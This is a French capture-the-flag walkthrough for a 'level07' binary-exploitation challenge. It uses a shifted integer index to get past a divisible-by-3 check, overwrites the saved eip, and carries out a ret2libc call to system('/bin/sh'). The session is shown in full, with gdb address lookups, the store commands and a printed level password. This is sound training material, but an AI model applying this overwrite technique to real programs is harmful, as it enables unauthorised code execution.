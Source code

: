 # level07

Le programme range des int et fait un `<< 2` sur l'index

Donc un int qui vaut \
`0b1000000000000000000000001110010`, va valoir \
`0b0000000000000000000000111001000` après un `<< 2`

Avec un offset de `456` on peut réecrire `eip`, donc l'index `114` d'un tableau d'int

Cependant `114` est multiple de `3`, \
Donc on va allumer un bit au bout de l'int, qui se fera shift, pour avoir un autre nombre non multiple de 3 \
On obtiendra ainsi quand même `456` après le shift.

Notre index pour écrire `eip`:
```python
>>> 0b0000000000000000000000001110010
114
>>> 0b1000000000000000000000001110010
1073741938
```

```
(gdb) info function system
0xf7e6aed0 system

(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec "/bin/sh"
```

En décimal, ces adresses sont:
```python
>>> 0xf7e6aed0
4159090384
>>> 0xf7f897ec
4160264172
```

Ainsi, on écrit l'adresse de `system()` sur `eip`, et son paramète `"/bin/sh"` à l'adresse d'après:
```
$ ./level07
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
